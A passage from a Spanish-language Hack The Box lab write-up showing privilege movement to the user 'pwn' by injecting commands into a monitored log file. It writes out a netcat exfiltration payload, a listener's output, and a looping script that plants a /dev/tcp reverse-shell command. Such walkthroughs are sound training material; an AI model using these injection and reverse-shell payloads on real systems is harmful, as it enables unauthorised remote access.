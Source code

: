 **(**

Pueden probar de todo, si ejecutamos:

```bash
...
echo "1 2 3;id | nc 10.10.14.47 4434" > /home/kid/logs/hackers
...
```

Obtenemos:

```bash
❭ nc -lvp 4434
listening on [any] 4434 ...
10.10.10.226: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.47] from (UNKNOWN) [10.10.10.226] 52764
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```

**)**

Ahora si a por la Shell, solo quería mostrar eso :P

Nuestro script quedaría así:

```bash
#!/bin/bash

while true; do
    echo "1 2 3;bash -c 'bash -i >& /dev/tcp/10.10.14.47/4434 0>&1'" > /home/kid/logs/hackers
done
```

Y tendríamos:

![314bash_scanlosers_injectionrevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314bash_scanlosers_injectionrevSH.png)

Opa, tenemos una sesión como `pwn`
